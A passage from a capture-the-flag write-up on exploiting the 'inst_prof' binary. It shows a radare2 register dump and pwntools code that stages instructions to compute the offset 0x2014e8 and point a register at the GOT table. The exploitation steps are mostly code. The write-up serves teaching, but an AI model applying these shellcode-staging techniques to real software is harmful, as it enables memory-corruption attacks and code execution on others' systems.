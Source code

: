 Now it is time to find out how we generate the magic value `0x2014e8`. To do that, lets see which values we have at 
our disposal checking the registers at the first iteration of `do_test`.  
Once we get it we will add that value to `[rsp]` (not rsp but the value it points too) and save it in one of our 
three registers (`r13`, `r14` or `r15`) to use it later.

{{< highlight r2 "hl_lines=5" >}}
$ r2 -Ad -R "stdin=\"`python -c 'print(\"\xc3\" * 8)'`\"" -c 'dcu main; dcu `/a call rbx~[0]`; ds; dr=' inst_prof
 rax 0x00000000           rbx 0x7f7d18d63000       rcx 0x7f7d1888b4c7
 rdx 0x10b2e00000000       r8 0xffffffffffffffff    r9 0x00000000
 r10 0x00000487           r11 0x00000206           r12 0x10b2efa655245
 r13 0x7ffe8c2b98a0       r14 0x00000000           r15 0x00000000
 rsi 0x00001000           rdi 0x7f7d18d63000       rsp 0x7ffe8c2b9790
 rbp 0x7ffe8c2b97b0       rip 0x561095b73b16       rflags 1I
orax 0xffffffffffffffff  
{{< /highlight >}}

I started like this:
```python
ret = asm('ret')                            # "\xc3"

# We store the content rsp is pointing to in r13.
p.send(asm('mov r13, [rsp]'))               # "\x4c\x8b\x2c\x24" 4 bytes! so we can not append a ret instrucction. 
# This is going to be executed 0x1000 times which is not going to suppose a problem.

# We need to get 0x2014e8 and add it to r13
p.send(asm('add r15, 0x20'))                # "\x49\x83\xc7\x20" -> r15 = 0x20 * 0x1000 -> 0x20000
# Again, remember that the instruction will be executed 0x1000 times if we do not add a "ret" opcode.
# This way we are going to store 0x20 * 0x1000 (0x20000) in r15.

# We send 0x10 times the next instruction.
# Each of this sends will not be executed 0x1000 times because we are adding a `ret` opcode.
inst = asm('add r14, r15') + ret
for i in range(0x10):
    p.send(inst)       # "\x4d\x01\xfe" + "\x3c"; r14 = 0x200000
# It has a ret instrucction attached so it will only going to get executed once each sending.
# r14 has a initial value of 0x0 so adding to 0x0 0x10 times 0x20000 will result in 0x200000!

# r10 is initially 0x487. If we add it 0x9D times to r14 we get ...
inst = asm('add r14, r10') + ret            # "\x4d\x01\xd6" + "\x3c"
for i in range(0x9D):
    p.send(inst)                            # r14 = 0x2014da ! We are pretty close

# We only need an extra 0xE so ...
inst = asm('inc r14') + ret                 # "\x49\xff\xc6" + "\xc3"
for i in range(0xE):
    p.send(inst)                            # r14 = 0x2014e8 !!

# Ta-dahhh! Now we add r13 (which have [rsp])  and ... 
p.send(asm('add r13, r14') + ret)           # "\x4d\x01\xf5" + "\xc3"; 
# r13 = r13 + 0x2014e8 = GOT TABLE !! 
```
